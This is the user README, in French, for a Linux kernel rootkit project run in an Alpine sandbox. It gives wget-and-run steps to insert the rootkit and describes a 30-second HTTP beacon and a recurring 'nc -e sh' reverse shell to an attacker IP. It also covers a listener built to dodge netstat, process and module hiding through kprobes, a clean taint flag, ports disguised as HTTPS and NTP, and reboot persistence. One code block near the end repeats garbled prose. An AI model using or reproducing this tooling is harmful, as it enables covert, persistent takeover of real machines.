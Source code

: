 # Documentation Utilisateur

## Mise en place d’une sandbox alpine LFS

Exécuter le script de lancement de l’Alpine LFS :

```c
./script_generate_alpine_LFS.sh
```

Une version plus rapide de ce script fonctionnant avec l’image disk.qcow2 :

```c
./script_alpine_qcow2.sh
```

Se connecter à l’alpine avec les credentials `root:root`

## Insertion du rootkit

Récupérer le script d’insertion et l’exécuter dans l’alpine

```c
wget https://raw.githubusercontent.com/gobelinor/Rootkit-Project/refs/heads/main/mesmodules/insert/insertion_script
chmod +x insertion_script
./insertion_script
```

Depuis la machine hôte 

```c
ip a
```

Renseigner l'IP de l'hôte au script d’insertion

## Interaction depuis la machine hôte

 

Un des processus de ce rootkit va envoyer un paquet réseau toutes les 30s.

Depuis la machine hôte on peut lancer un serveur python pour observer des logs provoqués par le rootkit :

```c
sudo python3 -m http.server 123
```

A l’insertion du module, on a : 

```c
"GET /START HTTP/1.1" 404 -
```

Toutes les 30s on a :

```c
"GET /UP HTTP/1.1" 404 -
```

Si un utilisateur sur l’alpine cherche à voir le processus qui déclenche ces logs, avec par exemple `ps`, `top`, ou un `ls` dans `/proc` le processus est kill puis relancé et on voit ce log : 

```c
"GET /RESTARTED_BECAUSE_SOMETHING_KILLED_ME HTTP/1.1" 404 -
```

Un processus du rootkit essaye d’établir un reverse shell toutes les 30s.

Depuis la machine hôte il est possible de lancer un reverse shell avec ce listener :

```c
sudo nc -lvnp 443
```

Attention lorsque la connection reverse shell est établie elle est visible via netstat depuis l’alpine, c’est pourquoi il est fourni un script python qui permet de kill la connection instantanément après avoir reçu une réponse de l’alpine.

```c
sudo python3 listener_discret.py "whoami"
```

L’utilisation de ce script python permet d’exécuter une commande sur l’alpine et de grandement diminuer les chances de se faire détecter par un netstat depuis l’alpine par rapport à la solution avec un listener classique de reverse shell. 

Il est possible de redémarrer l’alpine et le rootkit sera toujours en fonctionnement : 

```c
reboot
```

Le reboot peut prendre quelques minutes.

Il est possible de se connecter à un utilisateur qui n’a pas les droits root sur l’alpine.

Les credentials : `user:password`

## Remarques et points d’attention

Lorsque le module est inséré, vous pouvez remarquer que : 

- pas de trace dans l’historique des commandes du user root de l’insertion
- pas de log kernel “loading out of tree module taints the kernel”
- le kernel n’est pas tainted

```c
cat /proc/sys/kernel/tainted
0
```

- les processus réseaux initiés par le rootkit ne sont pas visible depuis l’alpine par un `ps` un `top` un `htop` ou plus généralement un parcours de `/proc`
- le module n’est pas visible avec `lsmod` et n’apparait pas dans `/proc/modules`

Néanmoins il est visible que :

- des kprobes sont enregistrées (visible uniquement par le user root)

```c
cbe2a877a075:~# cat /sys/kernel/debug/kprobes/list 
ffffffffad090094  k  __x64_sys_exit_group+0x4    [OPTIMIZED]
ffffffffad2b8674  k  __x64_sys_getdents64+0x4    [OPTIMIZED]
```

- Un kworker lié à notre rootkit est visible avec `ps`

```c
  626 root      0:00 [kworker/R-nfsio]
```

- les fichiers suivants, permettant la persistance de notre rootkit après un redémarrage (`reboot`), sont visibles par tous les users et peuvent permettre de compromettre notre rootkit et l’IP de l’attaquant

```c
cbe2a877a075:~# cat /etc/modules
af_packet
ipv6
ipv4
```

```c
cbe2a877a075:~# ls /lib/modules/6.10.10/extra/
ipv4.ko
```

```c
cbe2a877a075:~# cat /etc/modprobe.d/ipv4.conf 
options ipv4 param=OGLPOHFPGKPOIN
```

Le paramètre param au dessus contient l’IP renseignée lors de l’insertion du script, mais chiffrée pour éviter de compromettre trop rapidement l’IP de l’attaquant.

Un user n’ayant pas les droits root ne pourra néanmoins pas éditer ou supprimer ces fichiers pour empêcher notre persistance.

- Il est possible pour le user root de désactiver les kprobes avec :

```c
cbe2a877a075:~# echo 0 > /sys/kernel/debug/kprobes/enabled 
```

Ce qui désactive l’obfuscation de nos process.

Par exemple avec `ps` on voit désormais :

```c
  571 root      0:00 /bin/sh -c while true; do nc 192.168.95.170 443 -e sh; sle
  572 root      0:00 /bin/sh -c while true; do wget http://192.168.95.170:123/U
```

Un user n’ayant pas les droits root ne peut pas désactiver les kprobes.

- les ports de destinations ont été choisis pour paraître habituels :
    - 443 pour le reverse shell (correspond habituellement au HTTPS)
    - 123 pour les paquets réseaux envoyés avec wget (correspond habituellement avec NTP)

- Dans le cas ou la persistance n’est pas nécessaire (sur un serveur n’ayant pas à être reboot), comme elle implique d’être facilement détectable à cause des 3 fichiers listés précédemment (`/etc/modules`,`/lib/modules/$(uname -r)/extra/ipv4.ko`, `/etc/modprobe.d/ipv4.conf`) il existe un script d’insertion alternatif sans la persistance `insertion_script_without_persistence`

```c
Dans le cas ou la persistance n’est pas nécessaire (sur un serveur n’ayant pas à être reboot), comme elle implique d’être facilement détectable à cause des 3 fichiers listés précédemment (/etc/modules,/lib/modules/$(uname -r)/extra/ipv4.ko, /etc/modprobe.d/ipv4.conf) il existe un script d’insertion alternatif sans la persistance insertion_script_without_persistence wget https://raw.githubusercontent.com/gobelinor/Rootkit-Project/refs/heads/main/mesmodules/insert/insertion_script_without_persistence
chmod +x insertion_script
./insertion_script
```

L'utilisation de ce script ne permettra pas à notre rootkit d'être encore chargé après le redémarrage, mais les 3 fichiers compromettants n'existeront plus ou ne contiendront plus de traces de notre module.